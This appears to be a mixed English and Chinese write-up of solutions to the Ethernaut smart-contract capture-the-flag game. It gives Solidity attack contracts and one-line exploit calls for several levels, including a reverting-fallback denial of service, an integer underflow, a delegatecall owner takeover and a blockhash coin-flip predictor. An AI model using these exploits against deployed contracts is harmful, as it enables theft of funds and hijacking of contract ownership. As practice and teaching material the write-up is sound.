  # Ethernaut  CTF
 
 [合约攻击CTF](https://ethernaut.openzeppelin.com/)
 
 
 
 # King
 
```
contract BadKing {
    King public king = King(YOUR_LEVEL_ADDR_HERE);
    
    // Create a malicious contract and seed it with some Ethers
    function BadKing() public payable {
    }
    
    // This should trigger King fallback(), making this contract the king
    function becomeKing() public {
        address(king).call.value(1000000000000000000).gas(4000000)();
    }
    
    // This function fails "king.transfer" trx from Ethernaut
    function() external payable {
        revert("haha you fail");
    }
}
```

1. Create a BadKing contract and seed it with at least 1 Ether in the constructor:

2. Create a function to allow this BadKing to become the recognized King in King.sol, making sure to send at least 1 Ether to surpass the current prize.

3. Implement a payable fallback function which immediately reverts the transaction. Give it an error message (optional).
 
 
 # GatekeeperOne
 
```
contract Gatekeeperhack {
    address public _gateKey = tx.origin;
    bytes8 public _gateKey8 = bytes8(_gateKey);
    // Mask to build the right _gateKey parameter for gateThree modifier
    bytes8 public mask = 0xFFFFFFFF0000FFFF;

    bytes8 public _gateKey8Padded = _gateKey8 & mask; 

    GatekeeperOne target = GatekeeperOne('COPY YOUR ETHERNAUT INSTANCE ADDRESS TO BE HACKED HERE");

    function hack(){
        target.call.gas(32979)(bytes4(sha3("enter(bytes8)")),_gateKey8Padded);

    }
```


# Coinflip
```
contract Attack {
  CoinFlip fliphack;
  address instance_address = instance_address_here;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  function Attack() {
    fliphack = CoinFlip(instance_address);
  }

  function predict() public view returns (bool){
    uint256 blockValue = uint256(block.blockhash(block.number-1));
    uint256 coinFlip = uint256(uint256(blockValue) / FACTOR);
    return coinFlip == 1 ? true : false;
  }

  function hack() public {
    bool guess = predict();
    fliphack.flip(guess);
  }
}
```

# Telephone
代码很短，这里的考点是 tx.origin 和 msg.sender 的区别。

tx.origin 是交易的发送方。
msg.sender 是消息的发送方。
用户通过另一个合约 Attack 来调用目标合约中的 changeOwner()
此时，tx.origin 为 用户，msg.sender 为 Attack，即可绕过条件，成为 owner

```
contract Attack {
    address instance_address = instance_address_here;
    Telephone target = Telephone(instance_address);

    function hack() public {
        target.changeOwner(msg.sender);
    }
}
```

# Token
经典的整数溢出问题
在 transfer() 函数第一行 require 里，这里的 balances 和 value 都是 uint。此时 balances 为 20，令 value = 21，产生下溢，从而绕过验证，并转出一笔很大的金额。

`contract.transfer(player_address, 21)`

为了防止整数溢出，应该使用 require(balances[msg.sender] >= _value)
或是使用 OpenZeppelin 维护的 SafeMath 库来处理算术逻辑。

 
 
# Delegation

在本题中，Delegation 合约中的 delegatecall 函数参数可控，导致可以在合约内部执行任意函数，只需调用 Delegate 合约中的 pwn 函数，即可将 owner 变成自己。

`contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)});`


# Naught Coin
由于 NaughtCoin 子合约中并没有实现该接口，我们可以直接调用，从而绕开了 lockTokens() ，题目的突破口就在此。
需要注意的是，与 transfer() 不同，调用 transferFrom() 需要 msg.sender 获得授权。由于我们本就是合约的 owner，可以自己给自己授权。授权操作在接口文档里也有

`function approve(address _spender, uint256 _value) returns (bool success)`

还有一点，转账的目标账户不能是非法地址，所以需要部署一个第三方 NaughtCoin 合约。注意 import 的时候地址是 github 链接。
